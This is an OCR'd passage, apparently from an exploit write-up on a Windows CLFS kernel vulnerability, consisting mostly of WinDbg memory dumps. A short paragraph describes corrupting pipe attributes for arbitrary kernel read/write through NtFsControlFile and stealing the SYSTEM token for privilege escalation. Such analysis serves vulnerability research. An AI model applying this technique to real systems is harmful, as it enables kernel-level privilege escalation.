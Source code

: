     00000000`05001030  fffff801`4b272b50 CLFS!ClfsEarlierLsn
    00000000`05001038  fffff801`4b272b50 CLFS!ClfsEarlierLsn
    00000000`05001040  fffff801`4b272b50 CLFS!ClfsEarlierLsn
    00000000`05001048  fffff801`4b272b50 CLFS!ClfsEarlierLsn
    00000000`05001050  fffff801`4b272b50 CLFS!ClfsEarlierLsn
    00000000`05001058  fffff801`4b272b50 CLFS!ClfsEarlierLsn
    00000000`05001060  fffff801`4b272b50 CLFS!ClfsEarlierLsn
    00000000`05001068  fffff801`4b272b50 CLFS!ClfsEarlierLsn
    00000000`05001070  fffff801`4b272b50 CLFS!ClfsEarlierLsn
    00000000`05001078  fffff801`4b272b50 CLFS!ClfsEarlierLsn
    0: kd> dt nt!_file_object ffff820b`ce789420 FileName
       +0x058 FileName : _UNICODE_STRING "\Users\Public\p_00003771"
    0: kd> dt nt!_kthread ffff820b`c6fba2b2-232 PreviousMode
       +0x232 PreviousMode : 1 ''
    0: kd> db ffff820b`c6fba2b2 l10
    ffff820b`c6fba2b2  01 08 00 00 00 00 14 00-00 00 00 00 00 00 01 00  ................

**Exploit Gadgets for Windows 11:**
The gadgets for Windows 11 corruppts the pipe attribute fields, that enables the arbitrary kernel memory address read and write primitive through `NtFsControlFile` call. The exploit escalates the privilege by overwriting the `Token` of current process with the leaked `SYSTEM` token.

    0: kd> dq 0000000005000000
    00000000`05000000  00000000`05001000 00000000`00000000
    00000000`05000010  00000000`00000000 00000000`00000000
    00000000`05000020  00000000`00000000 00000000`00000000
    00000000`05000030  ffff898a`65108450 00000000`00000000
    00000000`05000040  00000000`05000000 00000000`05000400
    00000000`05000050  00000000`00000000 00000000`00000000
    00000000`05000060  00000000`00000000 fffff807`4105bfb0
    00000000`05000070  00000000`00000000 00000000`00000000
    0: kd> dt nt!_file_object ffff898a`65108450 FileName
       +0x058 FileName : _UNICODE_STRING "\Users\Public\p_00029935"
    0: kd> .printf "%y\n", fffff807`4105bfb0
    CLFS!ClfsMgmtDeregisterManagedClient (fffff807`4105bfb0)
    0: kd> dqs 00000000`05001000
    00000000`05001000  fffff807`41043220 CLFS!ClfsEarlierLsn
    00000000`05001008  fffff807`3c1dc3b0 nt!PoFxProcessorNotification
    00000000`05001010  fffff807`41043220 CLFS!ClfsEarlierLsn
    00000000`05001018  fffff807`41043220 CLFS!ClfsEarlierLsn
    00000000`05001020  fffff807`41043220 CLFS!ClfsEarlierLsn
    00000000`05001028  fffff807`41043220 CLFS!ClfsEarlierLsn
    00000000`05001030  fffff807`41043220 CLFS!ClfsEarlierLsn
    00000000`05001038  fffff807`41043220 CLFS!ClfsEarlierLsn
    00000000`05001040  fffff807`41043220 CLFS!ClfsEarlierLsn
    00000000`05001048  fffff807`41043220 CLFS!ClfsEarlierLsn
    00000000`05001050  fffff807`41043220 CLFS!ClfsEarlierLsn
    00000000`05001058  fffff807`41043220 CLFS!ClfsEarlierLsn
    00000000`05001060  fffff807`41043220 CLFS!ClfsEarlierLsn
    00000000`05001068  fffff807`41043220 CLFS!ClfsEarlierLsn
    00000000`05001070  fffff807`41043220 CLFS!ClfsEarlierLsn
    00000000`05001078  fffff807`41043220 CLFS!ClfsEarlierLsn
    0: kd> dq 00000000`05000400
    00000000`05000400  00000000`05001300 00000000`00000000
    00000000`05000410  00000000`00000000 00000000`00000000
    00000000`05000420  00000000`00000000 00000000`00000000
    00000000`05000430  00000000`00000000 00000000`00000000
    00000000`05000440  00000000`00000000 ffffa002`a73ff018
    00000000`05000450  00000000`00000000 00000000`00000000
    00000000`05000460  00000000`00000000 00000000`00000000
    00000000`05000470  00000000`00000000 00000000`00000000
    0: kd> dq ffffa002`a73ff018
    ffffa002`a73ff018  00000000`00000fd6 ffffa002`a73ff02a
    ffffa002`a73ff028  41414141`4141005a 41414141`41414141